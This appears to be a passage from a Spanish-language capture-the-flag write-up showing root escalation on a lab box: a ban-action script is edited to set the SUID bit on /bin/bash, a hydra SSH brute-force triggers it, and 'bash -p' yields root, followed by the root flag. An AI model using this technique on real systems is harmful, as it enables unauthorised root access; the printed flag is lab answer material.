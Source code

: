 Genera un archivo en `/tmp` con las IP's bloqueadas y si vamos al `/tmp` veremos el archivo por lo que vemos que esta funcionando ese script y los demas no da señales de que interactue el servicio con ellos.

Por lo que haremos lo siguiente para poder editar el archivo.

```shell
mv actionban.sh actionban.bak
cp actionban.bak actionban.sh
```

Y ahora si podremos editarlo, por lo que haremos lo siguiente.

```shell
nano actionban.sh

#Dentro del nano
<RESTO_DEL_CODIGO>

chmod u+s /bin/bash
```

Lo guardamos y lo reiniciaremos el servicio ya que podemos.

```shell
sudo service login_monitor restart
```

Una vez hecho eso, tiraremos un ataque de `hydra` para que eso se ejecute.

```shell
hydra -l memesploit -P <WORDLIST> ssh://<IP> -t 64
```

Esperamos un rato y si volvemos a donde tenemos la shell del usuario `memesploit` haremos un `ls` para ver la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Y veremos que ha funcionado, por lo que haremos lo siguiente.

```shell
bash -p
```

Con esto ya seremos `root` y podremos leer la flag.

> root.txt

```
b57069733c1fbdf4795c0b36597c307a
```
